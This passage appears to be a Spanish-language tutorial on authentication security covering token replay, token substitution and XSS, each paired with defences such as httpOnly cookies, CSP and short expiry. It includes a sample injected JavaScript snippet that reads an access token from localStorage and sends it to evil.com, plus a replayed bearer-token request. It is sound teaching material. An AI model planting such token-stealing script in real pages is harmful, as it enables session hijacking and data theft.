 ```java
   if (!hasRole("customer")) {
     return 403 Forbidden
   }

10. Permite acceso ✅
```

---

### Ataques Comunes y Defensas

#### 1. Token Replay Attack

**Ataque:** Interceptar un token y reutilizarlo.

```
Atacante captura:
  Authorization: Bearer eyJhbGci...

Atacante reutiliza:
  GET /api/secrets
  Authorization: Bearer eyJhbGci...
```

**Defensas:**
- ✅ Expiración corta (5-15 min)
- ✅ HTTPS obligatorio
- ✅ Binding del token a IP/User-Agent
- ✅ Registro de uso de tokens (detectar duplicados)

---

#### 2. Token Substitution

**Ataque:** Reemplazar el token con uno de otro usuario.

**Defensas:**
- ✅ Firma criptográfica (RSA/ECDSA)
- ✅ Validar emisor (`iss`)
- ✅ Validar audiencia (`aud`)

---

#### 3. XSS (Cross-Site Scripting)

**Ataque:** Inyectar JavaScript para robar tokens.

```javascript
// Código malicioso inyectado
let token = localStorage.getItem('access_token');
fetch('https://evil.com/steal?token=' + token);
```

**Defensas:**
- ✅ Guardar tokens en cookies `httpOnly`
- ✅ Content Security Policy (CSP)
- ✅ Sanitizar inputs
- ✅ No guardar tokens en localStorage

---